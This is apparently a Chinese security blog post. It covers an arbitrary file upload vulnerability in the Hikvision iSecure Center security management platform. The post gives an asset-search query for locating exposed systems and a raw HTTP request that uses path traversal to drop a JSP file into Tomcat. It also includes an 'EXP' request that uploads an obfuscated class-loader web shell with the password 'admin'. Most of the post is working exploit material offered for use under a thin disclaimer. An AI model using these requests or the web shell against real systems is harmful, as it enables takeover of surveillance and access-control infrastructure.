 #  海康威视iSecure Center综合安防管理平台center任意文件上传漏洞   
原创 菜鸟学渗透  菜鸟学渗透   2025-01-06 02:50  
  
# 使用说明：本文章仅用于学习技术研究，请勿用于违法用途，造成任何后果自负与本人无关，请自觉遵守国家法律法规。  
  
1、漏洞描述  
  
  
HIKVISION iSecure Center综合安防管理平台是一套“集成化”、“智能化”的平台，通过接入视频监控、一卡通、停车场、报警检测等系统的设备，获取边缘节点数据，实现安防信息化集成与联动，以电子地图为载体，融合各系统能力实现丰富的智能应用。HIKVISION iSecure Center平台基于“统一软件技术架构”先进理念设计，采用业务组件化技术，满足平台在业务上的弹性扩展。该平台适用于全行业通用综合安防业务，对各系统资源进行了整合和集中管理，实现统一部署、统一配置、统一管理和统一调度。海康威视isecure center 综合安防管理平台存在任意文件上传漏洞  
# 2、影响版本  
  
HIKVISION iSecure Center综合安防管理平台   
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/hZGcrKavvZlicFGxjKy5UB1vV6kKZvp6XKJqlG9QA1M4H8ibDT4U5L1St76H8Ppp0YD6nt0Y6tGaD2Uw6wicIc1bQ/640?wx_fmt=other&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/hZGcrKavvZlicFGxjKy5UB1vV6kKZvp6X3eBDUiaYibgky08h0SgU0qVeyVHibVEicWgorAMEyUibxEibj3DtPficsTG6A/640?wx_fmt=other&from=appmsg "")  
  
3、资产测绘  
```
app="HIKVISION-iSecure-Center"
```  
  
4、漏洞复现  
```
POST /center/api/files;.js HTTP/1.1
Host: 172.16.127.250
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 249
Content-Type: multipart/form-data; boundary=ea26cdac4990498b32d7a95ce5a5135c

--ea26cdac4990498b32d7a95ce5a5135c
Content-Disposition: form-data; name="file"; filename="../../../../../bin/tomcat/apache-tomcat/webapps/clusterMgr/test.jsp"
Content-Type: application/octet-stream

test
--ea26cdac4990498b32d7a95ce5a5135c--
```  
```
上传文件位置：
http://xx.xx.xx.xx/clusterMgr/test.jsp;.js
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hZGcrKavvZlicFGxjKy5UB1vV6kKZvp6XiaCk9eszZjKCkMIBInOf3lhiaola2PPn8iceXlSfuhgdVWgPF2308KicTQ/640?wx_fmt=png&from=appmsg "")  
  
EXP｜蚁剑密码：admin  
```
POST /center/api/files;.js HTTP/1.1
Host: 172.16.127.250
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 1187
Content-Type: multipart/form-data; boundary=ea26cdac4990498b32d7a95ce5a5135c

--ea26cdac4990498b32d7a95ce5a5135c
Content-Disposition: form-data; name="file"; filename="../../../../../bin/tomcat/apache-tomcat/webapps/clusterMgr/shell1.jsp"
Content-Type: application/octet-stream

<%  String HZ6XV = request.getParameter("admin");if (HZ6XV != null) { class E74vekli extends/*Z5WGL66IkB*/ClassLoader { E74vekli(ClassLoader L902G8) { super(L902G8); } public Class HZ6XV(byte[] b) { returnsuper.defineClass(b, 0, b.length);}}byte[] bytes = null;try {int[] aa = newint[]{99, 101, 126, 62, 125, 121, 99, 115, 62, 82, 81, 67, 85, 38, 36, 84, 117, 115, 127, 116, 117, 98}; Stringccstr="";for (inti=0; i < aa.length; i++) {aa[i] = aa[i] ^ 0x010; ccstr = ccstr + (char) aa[i];}ClassA16iI= Class.forName(ccstr);Stringk=newString(newbyte[]{100,101,99,111,100,101,66,117,102,102,101,114});bytes = (byte[]) A16iI.getMethod(k, String.class).invoke(A16iI.newInstance(), HZ6XV);}catch (Exception e) {bytes = javax.xml.bind.DatatypeConverter.parseBase64Binary(HZ6XV);}ClassaClass=newE74vekli(Thread.currentThread().getContextClassLoader()).HZ6XV(bytes);Objecto= aClass.newInstance();o.equals(pageContext);} else {} %>
--ea26cdac4990498b32d7a95ce5a5135c--
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hZGcrKavvZlicFGxjKy5UB1vV6kKZvp6XSiaicmWHmvu4pichqtMJEECGgJjwkxy7ia7iaOv30ejOfHpbFlX1ibXk9Lzg/640?wx_fmt=png&from=appmsg "")  
```
上传文件位置：
http://xx.xx.xx.xx/clusterMgr/shell1.jsp;.js
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hZGcrKavvZlicFGxjKy5UB1vV6kKZvp6XgzASBbnQJVSV07Pt9JpjbLR9ao5XP1qraKD6ameM9Cp3n8wAwNzX4w/640?wx_fmt=png&from=appmsg "")  
  
  
记得点赞+关注，关注微信公众号  
菜鸟学渗透  
获取最新文章，有任何问题可以后台私信我  
  
有考取NISP一级/二级/三级、CISP-PTE/PTS等证书的可以加我好友私信我（公众号回复“  
加好友  
”）。  
   
  
